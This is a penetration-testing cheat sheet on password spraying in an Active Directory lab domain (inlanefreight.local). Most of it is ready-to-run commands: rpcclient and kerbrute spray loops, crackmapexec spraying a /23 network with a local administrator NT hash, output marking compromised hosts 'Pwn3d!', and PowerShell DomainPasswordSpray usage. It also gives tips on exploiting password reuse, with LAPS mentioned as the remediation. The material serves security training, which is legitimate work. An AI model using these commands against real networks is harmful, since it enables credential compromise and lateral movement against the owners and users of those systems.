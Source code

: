 ### Content
- [From Internal Linux Host](#from-internal-linux-host)
- [From Internal Windows Host](#from-internal-windows-host)
---
we must always keep a log of our activities, including, but not limited to:
- The accounts targeted
- Domain Controller used in the attack
- Time of the spray
- Date of the spray
- Password(s) attempted

> [!Note]
> When working with local administrator accounts, one consideration is password re-use or common password formats across accounts.
> 
> If we find a desktop host with the local administrator account password set to something unique such as `$desktop%@admin123`, it might be worth attempting `$server%@admin123` against servers.
> Also, if we find non-standard local administrator accounts such as `bsmith`, we may find that the password is reused for a similarly named domain user account.
> The same principle may apply to domain accounts. If we retrieve the password for a user named `ajones`, it is worth trying the same password on their admin account (if the user has one), for example, `ajones_adm`, to see if they are reusing their passwords.
> This is also common in domain trust situations. We may obtain valid credentials for a user in domain A that are valid for a user with the same or similar username in domain B or vice-versa.
> 
> One way to remediate this issue is using the free Microsoft tool [Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) to have Active Directory manage local administrator passwords and enforce a unique password on each host that rotates on a set interval.



---
### From Internal Linux Host

``` bash
# Using rpcclient
# After preparing valid usernames list and choose a password 
$ pass=12345%!2
$ for u in $(cat valid_users.txt);do rpcclient -U '$u%$pass' -c "getusername;quit" 172.16.5.5 | grep Authority; done

# Using kerbrute
$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  $pass

# Using crackmapexec
$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p $pass | grep +

# passwordspray all hosts in a /23 network using the built-in local administrator account NT hash retrieved from another machine
$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

SMB         172.16.5.50     445    MX01  [+] MX01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.25     445    MS01  [+] MS01\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)
SMB         172.16.5.125    445    WEB0  [+] WEB0\administrator 88ad09182de639ccc6579eb0849751cf (Pwn3d!)



# Validating the Credentials with CrackMapExec
$ sudo crackmapexec smb 172.16.5.5 -u $username -p $password
```
---
### From Internal Windows Host

[DomainPasswordSpray](https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/refs/heads/master/DomainPasswordSpray.ps1) tool is highly effective. If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.

``` Powershell
PS C:\> Import-Module .\DomainPasswordSpray.ps1
PS C:\> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```